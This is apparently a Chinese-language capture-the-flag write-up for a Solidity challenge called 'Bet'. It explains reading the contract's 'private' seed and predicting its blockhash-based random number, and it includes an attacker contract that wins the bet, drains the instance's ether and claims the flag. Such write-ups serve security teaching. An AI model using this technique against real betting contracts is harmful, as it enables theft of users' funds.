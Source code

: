 
# Bet 

這題給了一個 `Bet.sol` 

裡面的 BetFactory 內含兩個函式： `create` , `validate`

create() : 負責建立 `Bet` instance
validate() : 裡面有個 emit getFlag 負責發 Flag

另外還有一個 class 叫做 Bet 是這題主要的攻擊目標，裡面有兩個函式： `getRandom`, `bet`

getRandom() 會產生要猜的亂數和下一輪的亂數而 
bet() 會在你猜對的時候把自己的錢送過去

連線過去會看到以下畫面：

```
Factory Contract Address : 0x8e0a809B1f413deB6427535cC53383954DBF8329
1) call create() to generate new challenge instance
2) call validate(...) to get flag
```

這題的目標在 getRandom 產生的亂數，只要猜對他基本上就結束了

```javascript
contract Bet is Challenge {
    uint private seed;

    constructor (address _player, uint _seed) Challenge(_player) {
        seed = _seed;
    }

    ...

    function getRandom () internal returns(uint) {
        uint rand = seed ^ uint(blockhash(block.number - 1));
        seed ^= block.timestamp;
        return rand;
    }
```

我們知道在 Smart contract 裡，private 只是裝飾品，跟 public 是一樣的

所以我們可以偷看當前的 seed 是多少

不過後面的 `uint(blockhash(block.number - 1))` 不好算，所以還是寫個 solidity 來幫我們計算，再把計算結果送過去比較簡單


我們要做的步驟如下：

1. 呼叫 BetFactory 的 create()
2. 計算正確的值給 Bet instance 的 bet()
3. 收走他的錢
4. 呼叫 BetFactory 的 validate(token)

```javascript
contract GuessNumberCaller {
    
    BetFactory betFactory;
    
    function createBet(address factory_address) public payable {
        betFactory = BetFactory(factory_address);
        betFactory.create{value:0.5 ether}();
    }
    
    function callNewNumberChallenge(address instance_address, uint seed) public payable {
        uint result = seed ^ uint(blockhash(block.number - 1));
        Bet bet = Bet(instance_address);
        bet.bet{value:0.1 ether}(result);
    }

    // 這行定義你的 Contract 收到錢要幹嘛。少了這行，你的 Contract 會收不了錢
    fallback () external payable {} 
    
    function validateFlag(uint token) public {
        betFactory.validate(token);
    }
    
}
```

然後照著填參數觸發就好了
